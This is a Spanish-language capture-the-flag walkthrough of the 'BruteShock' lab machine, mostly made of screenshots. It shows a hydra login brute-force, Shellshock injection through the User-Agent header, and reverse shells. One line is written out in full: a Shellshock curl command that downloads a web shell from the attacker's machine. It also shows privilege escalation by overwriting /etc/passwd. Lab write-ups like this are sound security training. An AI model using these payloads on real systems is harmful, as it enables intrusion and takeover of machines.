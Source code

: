 # RESOLUCIÓN DE LA MÁQUINA BRUTESHOCK

Abrimos la máquina y vemos su IP.

![image](https://github.com/user-attachments/assets/55505e12-a245-4585-adeb-67d88aaec72b)

Hacemos un nmap para poder ver los puertos que estan abiertos para la IP seleccionada.

![image](https://github.com/user-attachments/assets/c8e3cda1-a5da-4d11-bba5-dea0877176a5)

Ahora hacemos un escaneo de los puertos que hemos visto que estan abiertos para saber servicios,versiones...

![image](https://github.com/user-attachments/assets/25401dc0-d8d5-4c16-acd4-23a80c70e7d7)

Inspeccionamos la página y vemos que hay una cookie de sesión.

![image](https://github.com/user-attachments/assets/da79db33-752d-4be4-961d-5819a4918c83)

Vamos a hacer gobuster indicando esta cookie que tenemos, ya que de normal no nos estaba mostrando resultados.

![image](https://github.com/user-attachments/assets/9a4ccfad-40e2-4fe2-a011-2d85e6a906be)

Encontramos un index.php, que al usarlo nos vuelve a mostrar el mismo panel de login que ya teníamos.

![image](https://github.com/user-attachments/assets/caeb9a7e-be21-450b-89f7-ea8cb8fef46e)

Vamos a hacer fuerza bruta con hydra probando diferentes usuarios básicos, en busca de contraseñas.

Para ello tendremos que recopilar información al inspeccionar el login, ya que hay que hacer un hydra añadiendo la cookie de sesión, la solicitud y la respuesta.

![image](https://github.com/user-attachments/assets/7c82b4c4-68fd-4c48-86b9-6878dfd770bc)

![image](https://github.com/user-attachments/assets/ee79a520-4600-421c-b701-248625482107)

![image](https://github.com/user-attachments/assets/4468a2f4-86a6-46e6-89e9-17f1d9399ae6)

Hacemos hydra para el usuario admin y conseguimos una contraseña.

![image](https://github.com/user-attachments/assets/07bb2590-f5c4-44c7-bf5c-a1f75b41af86)

Nos logueamos.

![image](https://github.com/user-attachments/assets/13dc288a-7541-4fa6-9dfb-fe74e36bc436)

Ahora vemos un login de google.

![image](https://github.com/user-attachments/assets/3d8dfb72-473a-4d1b-bf96-9a11fdf54fd1)

En el vemos "User-Agent almacenado en el log", y nos hace pensar que estamos ante un posible shellshock.

![image](https://github.com/user-attachments/assets/90b5a54e-0582-4a36-8d4b-cb94fa42b8dd)

Para vulnerar esto, abriremos el burpsuite y captaremos la solicitud del login, nos iremos al apartado de "User-Agent" y añadiremos este código.

![image](https://github.com/user-attachments/assets/706d3571-5810-4874-bde1-809851319015)

Y veremos ese mensaje en el login.

![image](https://github.com/user-attachments/assets/9e5cf809-b147-4847-b5e4-0f35ae63fd99)

Vamos a hacer una reverse shell.

![image](https://github.com/user-attachments/assets/49a80486-c306-4270-9c53-d80c30f2ee2b)

![image](https://github.com/user-attachments/assets/9df81163-7ccd-4966-a261-83f00f603a44)

Me desconecta pasados unos segundos.

![image](https://github.com/user-attachments/assets/fa3c898e-e443-473d-b1e3-a578e90b9d12)

Vamos a probar otra forma de hacerlo.

Para ello tendremos que crear un archivo malicioso en nuestra maquina, y desde allí abrirnos un server con python.

![image](https://github.com/user-attachments/assets/12c4e511-82bd-4cee-9935-d0dcb5108ce2)

![image](https://github.com/user-attachments/assets/e0334faa-86ae-43cc-b7b6-955909042ae1)

Ahora desde burpsuite, desde el User-Agent ejecutamos esto: () { :; }; curl 192.168.1.102:8000/shell.php -o shell.php

De esta manera cogeremos el archivo maliciosos que hemos creado y poder abrirlo desde la web y ejecutar comandos con el parámetro cmd.

![image](https://github.com/user-attachments/assets/c2b913d1-705b-4088-81d3-9171b49ad678)

Vamos a hacer de nuevo una reverse shell, pero al cabo de unos segundos nos vuelve a sacar.

![image](https://github.com/user-attachments/assets/ed59d27f-165f-4f47-827e-2df4845bb33c)

Después de un buen rato probando cosas, sin usamos la reverse shell, pero en base64, si nos deja.

![image](https://github.com/user-attachments/assets/0eaeea24-2539-4b43-a895-ccf5b83d72e8)

Para ello hay que usar esta reverse shell pero añadiendo "base64 -d", para decodearla y bash para que nos de una bash.

![image](https://github.com/user-attachments/assets/3a810faf-11e9-4e9e-a08a-eb0ea1c2cad5)

Y de esta manera si ganamos acceso a la máquina víctima y no nos saca.

![image](https://github.com/user-attachments/assets/225afbe9-cd87-4393-ab85-2fd55768aa2c)

En el directorio /home tenemos 3 usuarios.

![image](https://github.com/user-attachments/assets/219e846b-cb69-4c05-b4a2-bc74256da5cd)

Hemos usado el comando find para cada uno de ellos, y en el usuario darksblack hemos encontrado este hash: 

![image](https://github.com/user-attachments/assets/87c09a17-158b-4ae9-ab1c-91ded619594d)

Nos lo pasamos a nuestra máquina y usando john sacamos unas credenciales.

![image](https://github.com/user-attachments/assets/72070281-2f03-4220-8915-4c1f948227a1)

Nos conectamos como darksblack.

![image](https://github.com/user-attachments/assets/9b76b547-fafe-474e-8963-4b40fadddd05)

Hacemos sudo -l y vemos esto: 

![image](https://github.com/user-attachments/assets/e16c48cb-f967-41e2-9abb-4820d34ab4c3)

Miramos el archivo script.sh

![image](https://github.com/user-attachments/assets/bc40b3a6-5d57-42ad-bc9c-cfad86e8c6ea)

Nos vamos a esta página: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/bash-eq-privilege-escalation/

![image](https://github.com/user-attachments/assets/9ed2b39e-080e-4161-8818-839937148b3f)

Y ejecutamos este comando cuando nos pida el número, y de esta manera nos convertimos en maci.

![image](https://github.com/user-attachments/assets/612702d4-01f5-4bf0-8fa0-74d30b1d4261)

INFORMACIÓN MACI CREADOR MÁQUINA

![image](https://github.com/user-attachments/assets/2685bf0b-dcec-4fc2-9ac2-0a57d75eff29)

![image](https://github.com/user-attachments/assets/2b82e63b-8d48-425d-8535-972b7f1f456f)

Aun así no puedo obtener la bash, tenemos que crear un script en python que me envie una reverse shell.

![image](https://github.com/user-attachments/assets/999a186d-0338-4e3b-9548-4ab7dc2a62db)

Le damos permisos y lo ejecutamos.

![image](https://github.com/user-attachments/assets/7ad4f5f4-f470-4809-b9d7-574c83c6a109)

Para ello tenemos que estar en escucha desde nuestra máquina atacante, y de esta manera ya somos pepe.

![image](https://github.com/user-attachments/assets/dfea68f3-62d1-4890-a1f7-a4a7d14eb4c7)

Volvemos a hacer sudo -l y ahora vemos esto: 

![image](https://github.com/user-attachments/assets/491bfa01-91e0-452b-8665-3c605fcce2b9)

Buscamos en el GTFObins y solo vemos esto: 

![image](https://github.com/user-attachments/assets/4d27004c-0b99-458d-880a-af511c98422e)

Vamos a copiarnos el /etc/passwd a otro archivo y le vamos a quitar la "x" del root.

![image](https://github.com/user-attachments/assets/0d73d42f-ba4a-471a-8723-4ee32138faa5)

Ahora ejecutamos el permiso SUDO seguido de estos dos archivos, para convertir el archivo que hemos creado, en el ya existente "/etc/passwd"

![image](https://github.com/user-attachments/assets/223c3ba4-ddbc-4336-8ed3-bb4e67185ccd)

Y ya somos root.

![image](https://github.com/user-attachments/assets/0d68dc32-4f99-4096-8102-6a37188ed542)





